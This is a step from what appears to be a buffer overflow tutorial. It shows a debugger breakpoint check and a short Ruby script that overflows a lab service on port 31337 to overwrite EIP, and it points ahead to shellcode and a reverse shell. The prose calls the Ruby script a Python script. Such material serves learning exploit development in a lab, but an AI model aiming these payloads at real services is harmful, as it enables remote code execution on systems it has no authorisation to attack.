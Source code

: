 This step is to confirm that the base address that we found via Mona can get us to EIP. Let's restart the debugger and set a break point by entering the first base address:

![Break Point](breakPoint.png)

After that hit F2 to set the break point. When the program crashes, it won't go further than this address. Let's run our Python script:
```Ruby
buff = "A" * 146
buff += "\xc3\x14\x04\x08"
RHOST = "192.168.0.227"
RPORT = 31337

require 'socket'

TCPSocket.open(RHOST,RPORT){ |s| s.puts buff + '\r\n'}
```
After running our ownEIP Python script, we can see that the program crashes at 080414C3 so we own EIP:

![Own EIP](ownEIP.png)

Now, we can move onto the last stage, generating a shellcode and getting a reverse shell back on our Kali machine.

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
